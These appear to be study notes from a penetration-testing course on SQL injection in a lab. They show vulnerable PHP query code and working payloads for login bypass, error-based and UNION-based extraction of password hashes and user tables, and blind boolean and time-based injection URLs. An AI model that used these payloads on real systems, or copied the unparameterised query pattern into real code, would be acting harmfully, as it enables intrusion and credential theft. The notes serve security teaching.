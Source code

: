 
SQL injections are often discovered and abused using automated tools such as [_sqlmap_](http://sqlmap.org/)

### Identify SQLi via Error-based Payloads

PHP Code Vulnerable to SQL injection

```
<?php
$uname = $_POST['uname'];
$passwd =$_POST['password'];

$sql_query = "SELECT * FROM users WHERE user_name= '$uname' AND password='$passwd'";
$result = mysqli_query($con, $sql_query);
?>
```

Testing for SQLi Authentication Bypass

```
offsec' OR 1=1 -- //
```

Injected SQL statement

```
SELECT * FROM users WHERE user_name= 'offsec' OR 1=1 --
```

Testing for SQLi Authentication Bypass 1

![Figure 1: Testing for SQLi Authentication Bypass 1](https://offsec-platform-prod.s3.amazonaws.com/offsec-courses/PEN-200/imgs/sqli/438ec513f7324e6814e92788ed3d3161-auth_bypass0.png)

Testing for SQLi Authentication Bypass 2

![Figure 2: Testing for SQLi Authentication Bypass 2](https://offsec-platform-prod.s3.amazonaws.com/offsec-courses/PEN-200/imgs/sqli/404f6a1bc21e7f0b3807c6fc9be8ccc8-auth_bypass3.png)

SQLi payload inside the 'Username' field

![Figure 3: SQLi payload inside the 'Username' field](https://offsec-platform-prod.s3.amazonaws.com/offsec-courses/PEN-200/imgs/sqli/8f7aa17e60e859478db1bf0d4ef8da85-auth_bypass4.png)

This resulted in authentication successful. 

We can try enumerating the database directly.

Error-based payload to retrieve the MySQL version.

```
' or 1=1 in (select @@version) -- //
```

Testing for Error-based payload

![Figure 5: Testing for Error-based payload](https://offsec-platform-prod.s3.amazonaws.com/offsec-courses/PEN-200/imgs/sqli/467bf58aa436ce35f33c581564392808-error1.png)

Got the MySQL version.

Attempting to retrieve the Users table

```
' OR 1=1 in (SELECT * FROM users) -- //
```

Testing this payload

![Figure 6: Testing for Error-based payload](https://offsec-platform-prod.s3.amazonaws.com/offsec-courses/PEN-200/imgs/sqli/1927c06d6e2561326f1b576f820dca3e-auth_bypass5.png)

Only query one column at a time.

Let's query for only the password column 

```
' or 1=1 in (SELECT password FROM users) -- //
```

Retrieving Users Hashes

![Figure 7: Retrieving Users Hashes](https://offsec-platform-prod.s3.amazonaws.com/offsec-courses/PEN-200/imgs/sqli/ea94c86bbeaca6dc505dd5e9ded557be-error2.png)

Don't know which user has which password. Adding WHERE clause to payload.

```
' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //
```

Retrieving admin's hash

![Figure 8: Retrieving Users Hashes](https://offsec-platform-prod.s3.amazonaws.com/offsec-courses/PEN-200/imgs/sqli/3d719b7d388ba7d7c9db027421cbe23e-error3.png)

### UNION Based Payloads

UNION keyword allows for an extra SELECT statement.

UNION SQLi needs to meet these conditions:
1. UNION query has same number of columns as original query
2. Data types between columns are compatible

Vulnerable SQL Query:

```
$query = "SELECT * from customers WHERE name LIKE '".$_POST["search_input"]."%'";
```

Verifying the exact number of columns

```
' ORDER BY 1-- //
```

Increment number by one until we get an error. 

Finding the Exact Number of Columns

![Figure 10: Finding the Exact Number of Columns](https://offsec-platform-prod.s3.amazonaws.com/offsec-courses/PEN-200/imgs/sqli/34889ebae67344beee8337e6e122cf0d-union2.png)

Unknown column '6' tell us we have 5 columns. 

Enumerating the Database via SQL UNION Injection

```
%' UNION SELECT database(), user(), @@version, null, null -- //
```

![Figure 11: Enumerating the Database](https://offsec-platform-prod.s3.amazonaws.com/offsec-courses/PEN-200/imgs/sqli/5a5310041c4a4d23f5f403bcba74d172-union3.png)

Attack worked. Except we're missing the database name. We need to shift everything because typically column 1 is an ID field. 

```
' UNION SELECT null, null, database(), user(), @@version  -- //
```

![Figure 12: Fixing the SQL Query](https://offsec-platform-prod.s3.amazonaws.com/offsec-courses/PEN-200/imgs/sqli/f485572f56d54c0cdff7010613f1ad47-union4.png)

Got all three values.

Enumerating  _information_schema.columns_ table

Retrieving Current Database Tables and Columns

```
' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //
```
Dumping the Current Database Tables Structure

![Figure 13: Dumping the Current Database Tables Structure](https://offsec-platform-prod.s3.amazonaws.com/offsec-courses/PEN-200/imgs/sqli/283e09223e6ed889bd4830f52aea6b18-union5.png)

Three columns contain `table name`, `column name`, `current database`

New table discovered: users with password column

New query to dump the _users_ table

```
' UNION SELECT null, username, password, description, null FROM users -- //
```

Dumping Users Credentials

![Figure 14: Dumping Users Credentials](https://offsec-platform-prod.s3.amazonaws.com/offsec-courses/PEN-200/imgs/sqli/c3e1a976980eb05221d67b87c034c33b-union6.png)

### Blind SQL Injections 

Database responses are not returned. 

Testing for Blind SQLi

![Figure 15: Testing for Blind SQLi](https://offsec-platform-prod.s3.amazonaws.com/offsec-courses/PEN-200/imgs/sqli/61b7cc113f94983319ad5ec9760123c0-blind1.png)

Testing for boolean-based SQLi in the URL

```
http://192.168.50.16/blindsqli.php?user=offsec' AND 1=1 -- //
```

Because 1=1 is always TRUE, app will only return results if that username exists.

Testing for time-based SQLi

```
http://192.168.50.16/blindsqli.php?user=offsec' AND IF (1=1, sleep(3),'false') -- //
```
This IF condition will always be TRUE, but will return FALSE if the user does not exist.




